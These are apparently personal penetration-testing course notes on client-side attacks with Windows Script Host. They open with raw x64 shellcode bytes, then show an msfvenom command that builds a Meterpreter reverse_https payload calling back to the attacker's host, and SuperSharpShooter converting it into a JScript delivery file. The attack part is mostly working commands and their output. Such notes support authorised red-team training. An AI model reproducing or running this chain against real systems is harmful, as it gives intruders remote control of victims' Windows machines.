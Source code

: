 ```bash 
0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,
0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,
0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,
0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89,
0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,
0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,
0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,
0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,
0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,
0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,
0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3,
0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,
0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
0xd5};

```


### SharpShooter

- python2 compliant one
- python3 fork https://github.com/SYANiDE-/SuperSharpShooter
	- needed to change requirements to `jsmin==3.0.0`
	- virtenv in ~/virtual-environments/supersharpshooter
- generate payload
```bash
 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 EXITFUNCTION=thread -f raw -o shell.txt
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 622 bytes
Saved as: shell.txt
```
- convert to js 
```bash
❯ sudo python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile ~/Documents/OSEP/Pen300/04ClientSideWithWindowsScriptHost/shell.txt --output  test

             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Shar'+'p'+'Sh'+'o'+'o'+'ter';
[*] Written delivery payload to output/test.js

```
